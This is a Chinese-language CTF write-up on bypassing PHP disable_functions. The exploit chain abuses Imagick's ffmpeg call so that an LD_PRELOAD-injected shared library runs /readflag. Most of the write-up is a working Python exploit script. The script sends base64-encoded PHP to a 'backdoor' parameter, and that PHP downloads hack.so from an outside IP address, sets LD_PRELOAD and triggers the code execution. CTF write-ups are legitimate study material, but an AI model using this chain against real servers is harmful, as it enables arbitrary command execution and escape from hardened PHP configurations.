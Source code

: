 这道题目参考了小西师傅、一叶飘零和郭dalao学长的分享,真实地感觉自己的菜了。。。

在写脚本的过程中遇见了很多诡异的问题，先留着琢磨。

## 主要思路

利用``Imagick()``中会触发``php解释器向外开启系统进程``的方法，这里的思路是当传入``MPEG``格式类型的文件时候，为了转换格式会向外部环境请求并触发``ffmpeg``的调用，从而开启新的进程。在开启时，环境变量``LD_PRELOAD``会首先加载，而我们事先会将我们的``恶意共享文件hack.so在这个环境变量中指出来``，即``LD_PRELOAD={DIR}/hack.so``。hack.so共享文件由hack.c文件编译，其中调用了``__attribute__((constructor))``，该方法会在共享文件被加载的时候率先被执行，至于执行的代码，当然就是``/readflag > {dir}/flag``啦。主要代码如下，代码写法借鉴了郭大佬的脚本，虽然思路不一样，个人感觉dalao的思路更加直接明了。

脚本

```python
import requests
import base64

url = "http://111.186.63.208:31340/"
dir = "/tmp/ef757c06e983a137384378f47607abfa"

#the first time i do this ,i use format function 'format' to replace $dir but failed,then i used $dir and '%',worked ,after the flag went out ,the format problem seems to dispeare?
#the new Imagick('{filename}') beginning with no work,but didnot after replace'''to '"',also disapeared after sovled it
cmd = '''
<pre>hello???????<br><?php echo 'hello';?><br>
<?php
$dir = "{0}";
file_put_contents("{0}/hack.so",file_get_contents("http://207.148.64.125:80/hack.so"));
chmod("{0}/hack.so",0777);
putenv("LD_PRELOAD={0}/hack.so");
file_put_contents("{0}/ch4ser.wmv","sssss");
file_put_contents("{0}/ch4ser","");
$tocken = new Imagick('{0}/ch4ser.wmv');
?>
</pre>
'''.format(dir)

#why the command line been executed can not be more than 2 in my script?cause the include will cause error
payload = '''
file_put_contents('%s/evil',base64_decode("%s"));
include "%s/evil";
'''%(dir,base64.b64encode(cmd),dir)

print(requests.post(url, data={'backdoor': payload }).content)

print requests.post(url,data={'backdoor':"print_r(scandir('%s'));"%dir}).content
print requests.post(url,data={'backdoor':"echo file_get_contents('%s/ch4ser');"%dir}).content
```

脚本写得很烂，注释部分可以忽略，是我在写的过程中遇到的小问题。
